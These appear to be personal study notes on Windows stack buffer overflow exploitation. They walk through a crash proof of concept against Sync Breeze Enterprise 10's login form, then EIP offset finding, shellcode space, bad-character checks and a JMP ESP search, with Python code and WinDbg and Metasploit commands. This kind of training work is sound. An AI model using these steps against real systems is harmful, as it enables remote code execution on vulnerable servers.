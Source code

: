 ## Windows Summary
1. Find input fields to the program
Use a script to recreate packet and spam variable input
2. Fuzz (give long strings to) any inputs to create a crash/error, locating a vulnerable input
3. Overflow to EIP (instruction pointer), verifiable using a debugger on the program process
4. Find space for shellcode ie. overflow into as much memory space as possible
5. Find a jump instruction to a register in the overflow space eg. JMP ESP
6. Point EIP to that instruction address (must be in a static location)
7. Overflow shellcode into the pointed to space. 

NOP Sleds

### Limited ESP space? 
Use jump code to access in ESP space to get to another overflowable register space

### DEP (Data Execution Prevention)
Hardware and software memory checks to prevent malicious code. Raises an exception when loads from data pages are attempted.

### ASLR (Address Space Layout Randomization)
Randomizes base addresses of programs and DLLs every time the OS is booted.

### CFG (Control Flow Guard)
Microsoft's version of CFI (Control Flow Integrity), validates indirect code branches (like a call to a register / CALL EAX) to prevent overwrite of function pointers

# Sync Breeze Example

[[WinDbg]]
### Sync Breeze Vulnerability
A buffer overflow was found in the username field of the HTTP POST login request
**Pre-Authentication Buffer Overflow**

Methods for discovering buffer overflow
1. Source code review (if available)
2. Reverse engineering
3. Fuzzing

Python proof of concept:
```
#!/usr/bin/python
import socket
import sys

try:
  server = sys.argv[1]
  port = 80
  size = 800
  inputBuffer = b"A" * size
  content = b"username=" + inputBuffer + b"&password=A"

  buffer = b"POST /login HTTP/1.1\r\n"
  buffer += b"Host: " + server.encode() + b"\r\n"
  buffer += b"User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
  buffer += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
  buffer += b"Accept-Language: en-US,en;q=0.5\r\n"
  buffer += b"Referer: http://10.11.0.22/login\r\n"
  buffer += b"Connection: close\r\n"
  buffer += b"Content-Type: application/x-www-form-urlencoded\r\n"
  buffer += b"Content-Length: "+ str(len(content)).encode() + b"\r\n"
  buffer += b"\r\n"
  buffer += content

  print("Sending evil buffer...")
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((server, port))
  s.send(buffer)
  s.close()
  
  print("Done!")
  
except socket.error:
  print("Could not connect!")
```

### Install Sync Breeze Enterprise 10
- Run from installer
- Options -> Sever -> Enable web access on port 80
- Attach WinDbg (run as admin w/ shift right click from taskbar)
- Keep services.msc up to restart the service when it dies
- `g` to continue service

### Crash the Application
- Run the Python POC from a VPN connected device
- Inspect the memory and error as an "Access Violation"
- This proves that data has overflowed into the EIP

### Control EIP
- Binary tree analysis to isolate EIP; 400 A's, 400 B's. EIP is written with B's, send 400 A's, 200 B's, 200 C's, etc.
- Or, send a long, non-repeating string of 4 byte chunks with:
	- `msf-pattern_create -l 800` ( [[Metasploit]] )
- Then check the EIP memory location with:
	- `msf-pattern_offset -l 800 -q 42306142` -> `Exact match of offset 780` (where 42306142 is the value in the EIP when the overflow occurred)
 - Edit script buffer with targeted EIP access:
 ```
 filler = b"A" * 780
 eip = b"B" * 4
 buffer = b"C" * 16
 overflow = filler + eip + buffer
```
- After running again, we inspect the registers
	- `dds esp L3` to print next 3 double words from ESP and we notice it points to our buffer of C's
	- `dds esp -10 L8` to print the previous 16 bytes (-10 is hex for -16), showing that there is some space between EIP and ESP that got overflowed

### Overflow for Shellcode
- Create room for shellcode, about 350-400 bytes
- Starting from the ESP, insert a buffer for new shellcode, but ensure that the new buffer amount doesn't change the nature of the crash error
```
 filler = b"A" * 780
 eip = b"B" * 4
 buffer = b"C" * 4 #space between EIP and ESP
 shellcode = b"d" * 1600
 overflow = filler + eip + buffer + shellcode
```
- `dd esp -10 L10` to get a view of each of the overflowed sections
- `dd esp+630 L10` to view end of shellcode buffer range, where 630 is hex for (just shy of) 1600, which is the value of bytes we used for the shellcode

### Check Bad Characters
- Some characters have to be avoided because either the input field or program will sanitize them or process them in unexpected ways, interrupting the shellcode
- send a buffer of all char codes as shellcode to progressively filter out bad chars, ie. `\x01\x02\x03...\xf0`
	- `db esp -10 LXXX` : to view shellcode chars buffer and see which chars are breaking (breaking chars will interrupt the overflow, causing all chars afterwards to not come through)
- Remove these from the script until chars make it through uninterrupted

### Find a Return Address
- Due to randomization protections and threading we cannot "hard code" an ESP into the EIP overflow (as it changes on every execution)
- Find a JMP ESP instruction with a static location
	- this eliminates any libraries compiled with ASLR, and the instruction cannot contain bad chars
Manually Check a Module's `DllCharacteristics` :
- Check the `DllCharacteristics` field: In the PE (Portable Executable) header, find the `IMAGE_DOS_HEADER` (at the start of module) -> `IMAGE_NT_HEADERS` offset -> `IMAGE_OPTIONAL_HEADER` offset. 
  Example for syncbrs
	- `lm m syncbrs` -> "start 00400000"
	- `dt ntdll!_IMAGE_DOS_HEADER 0x00400000` -> "e_lfanew : 0n232" (integer, converts to hex as 0xe8)
	- `dt ntdll!_IMAGE_NT_HEADERS 0x00400000+0xe8` -> "0x018"
	- `dt ntdll!_IMAGE_OPTIONAL_HEADER 0x00400000+0xe8+0x018` -> "DllCharacteristics : 0" (meaning there are no protections)
- But... in this example, we see ImageBase is hard set at `0x400000` meaning we will have to input 0x00's (null terminators) into EIP, and those will be mangled on input
TOOL!!!!